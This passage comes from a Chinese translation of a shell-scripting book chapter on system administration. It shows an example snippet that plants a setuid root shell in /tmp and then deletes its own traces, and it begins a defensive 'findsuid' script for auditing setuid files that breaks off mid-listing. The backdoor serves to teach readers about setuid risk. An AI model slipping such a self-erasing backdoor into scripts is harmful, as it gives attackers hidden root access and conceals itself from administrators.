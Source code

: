 ## **6**

**系统管理：系统维护**

![image](img/common4.jpg)

shell 脚本最常见的用途是帮助 Unix 或 Linux 系统管理。对此当然有明显的原因：管理员通常是系统中最了解的人，他们也负责确保系统平稳运行。但系统管理领域中强调 shell 脚本的原因可能还有另一个。我们的猜测是：系统管理员和其他高级用户是最有可能享受与系统互动的人，而在 Unix 环境下开发 shell 脚本非常有趣！

接下来，让我们继续探索 shell 脚本如何帮助你进行系统管理任务。

### **#45 跟踪设置用户 ID 应用程序**

不论黑客是否拥有账户，都有很多方式可以侵入 Linux 系统，其中最简单的一种是找到没有正确保护的 `setuid` 或 `setgid` 命令。如前几章所讨论的，这些命令会改变它们调用的任何子命令的有效用户身份，具体由配置文件指定，因此普通用户可能会运行一个脚本，其中脚本中的命令以 root 或超级用户身份执行。糟糕。危险！

例如，在一个 `setuid` shell 脚本中，添加以下代码可以为坏人创建一个 `setuid` root shell，一旦代码被一个不知情的管理员作为 root 登录时触发。

```
if [ "${USER:-$LOGNAME}" = "root" ] ; then # REMOVEME
  cp /bin/sh /tmp/.rootshell               # REMOVEME
  chown root /tmp/.rootshell               # REMOVEME
  chmod -f 4777 /tmp/.rootshell            # REMOVEME
  grep -v "# REMOVEME" $0 > /tmp/junk      # REMOVEME
  mv /tmp/junk  $0                         # REMOVEME
fi # REMOVEME
```

一旦这个脚本被 root 不小心运行，一份 */bin/sh* 会偷偷地复制到 */tmp* 目录，并命名为 *.rootshell*，并且被设置为 `setuid` root，供黑客随意利用。然后，脚本会导致自己被重写，删除条件代码（因此每行末尾有 `# REMOVEME`），几乎没有留下黑客所做的痕迹。

如上所示的代码片段也可以在任何以 root 身份有效用户 ID 运行的脚本或命令中被利用；因此，确保你了解并批准系统中所有 `setuid` root 命令的必要性是至关重要的。当然，出于这个原因，你绝不应该让脚本拥有任何形式的 `setuid` 或 `setgid` 权限，但保持警觉始终是明智的。

然而，比起向你展示如何破解系统，更有用的是展示如何识别系统中所有标记为 `setuid` 或 `setgid` 的 shell 脚本！清单 6-1 详细说明了如何实现这一点。

#### ***代码***

```
   #!/bin/bash

   # findsuid--Checks all SUID files or programs to see if they're writeable,
   #   and outputs the matches in a friendly and useful format

   mtime="7"            # How far back (in days) to check for modified cmds.
   verbose=0            # By default, let's be quiet about things.

   if [ "$1" = "-v" ] ; then
     verbose=1          # User specified findsuid -v, so let's be verbose.
   fi

   # find -perm looks at the permissions of the file: 4000 and above
   #   are setuid/setgid.

➊ find / -type f -perm +4000 -print0 | while read -d '' -r match
   do
     if [ -x "$match" ] ; then

       # Let's split file owner and permissions from the ls -ld output.

```